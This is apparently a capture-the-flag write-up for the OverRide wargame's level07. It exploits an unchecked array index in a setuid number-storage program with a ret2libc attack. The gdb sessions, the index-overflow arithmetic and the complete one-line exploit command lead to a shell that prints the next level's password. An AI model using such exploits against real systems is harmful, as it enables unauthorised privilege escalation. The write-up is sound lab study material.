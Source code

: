 # Solution

```
ret2libc
(echo -e "store\n4159090384\n2147483762\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
```


## Execution

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 10
 Completed store command successfully
Input command: read
 Index: 10
 Number at data[10] is 42
 Completed read command successfully
Input command: quit
level07@OverRide:~$ 
```
-> This is a program which allows us to `store` and `read` numbers.  


## Explanation

The table is able to store 100 numbers (400 chars / 4).  
The store_number and read_number functions do not check if the index input is correct, so we can write and read outside the buffer.  
The program is memsetting the arguments and env variables, so we can not send a shellcode as an argument, nor store a shellcode in an env variable.  

We can try to do a ret2libc at the return address of main.  
We need to find the offset in order to do a buffer overflow (EIP - Address of the buffer).  

Let's try to find the address of EIP:  
Let's put a breakpoint at the call of read_number:
```
(gdb) break *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()

(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c
(gdb) i r $eax // our buffer is stored in eax,as it is the only parameter of the function
eax            0xffffd544	-10940
(gdb) p 0xffffd70c - 0xffffd544
$1 = 456
```
-> We have an offset of 456 bytes, but as we are using a buffer of ints, we have 456 / 4 = 114.  
The return address of main is stored at index 114. So we have to do a ret2libc at this index.  

```
Input command: store
 Number: 42
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```
--> 114 is not working, because 114 % 3 = 0...

However, when storing and reading, the program does a bitshifting on the index:  
`buf[index << 2] = number`  
Let's try to find a number, which will be equal to 114 after the << 2.  
```
level07@OverRide:~$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf5b46cdb878d5a3929cc27efbda825294de5661e, not stripped
```
-> we are in a 32bit environment:  
```
114 = 0000 0000 0000 0000 0000 0000 0111 0010
```
We can take advantage of the <<2, which is destructive.  
There are 3 possibilities:  
```
1100 0000 0000 0000 0000 0000 0111 0010 = 3221225586 % 3 = 0
1000 0000 0000 0000 0000 0000 0111 0010 = 2147483762 % 3 = 2
0100 0000 0000 0000 0000 0000 0111 0010 = 1073741938 % 3 = 1
```

With the %3 verification, only 2 options are possible:  
2147483762 and 1073741938.  

After the <<2, the highest 2 bits will be out, and we will have the following:  
```
0000 0000 0000 0000 0000 0001 1100 1000 = 456
```

By using the index 2147483762, we can store a number at index 114!  
```
Input command: store
 Number: 42
 Index: 2147483762
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
```

Let's save the system() address at index 2147483762 (which is 114), exit() address at 115 and "/bin/sh" address at index 116.  

Let's find the address of system()  
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
0xf7e6aed0 in decimal: 4159090384.  

Address of exit();  
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```
0xf7e5eb70 in decimal: 4159040368  

Let's find the address of "/bin/sh"  
```
(gdb) find &system,+999999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
0xf7f897ec in decimal: 4160264172.  

----------->
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store     
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$ 
```

(echo -e "store\n4159090384\n2147483762\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07



<!-- https://sp21.cs161.org/assets/projects/1/cheatsheet.pdf -->

/*
The ret2libc (and return oriented programming (ROP)) technique relies on overwriting the stack to create a new stack frame that calls the system function. This wikipedia article explains stack frames in great detail: https://en.wikipedia.org/wiki/Call_stack#Stack_and_frame_pointers

The stack frame dictates the order the function call and parameters are written:

function address
return address
parameters

So in your example you want to call system() with cmdstring and return to the exit() function when the system() call returns. So you write the following stack frame:

system_addr
exit_addr
cmdstring_addr

If you remove the exit address you change the stack frame to the following:

system_addr
cmdstring_addr
existingdataonstack_aka_junk

So now you're calling system() with a junk address argument and trying to return into your command string once the function completes. Which is why it fails. You can replace the exit() address with other data such as 0x41414141 which will cause a segfault once the system() call completes.
*/
